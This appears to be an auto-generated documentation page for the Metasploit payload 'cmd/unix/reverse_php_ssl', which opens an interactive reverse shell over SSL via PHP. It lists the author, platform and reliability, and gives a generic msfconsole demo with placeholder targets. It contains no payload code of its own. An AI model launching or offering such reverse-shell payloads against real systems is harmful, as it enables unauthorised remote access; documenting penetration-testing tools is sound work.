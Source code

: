 ## Unix Command Shell, Reverse TCP SSL (via php)

Creates an interactive shell via php, uses SSL


## Module Name
payload/cmd/unix/reverse_php_ssl

## Authors
RageLtMan





## Platforms
unix

## Reliability
[Normal](https://github.com/rapid7/metasploit-framework/wiki/Exploit-Ranking)

## Demo

```
msf > use payload/cmd/unix/reverse_php_ssl
msf payload(reverse_php_ssl) > show targets
   ... a list of targets ...
msf payload(reverse_php_ssl) > set TARGET <target-id>
msf payload(reverse_php_ssl) > show options
   ... show and set options ...
msf payload(reverse_php_ssl) > run
```
    
    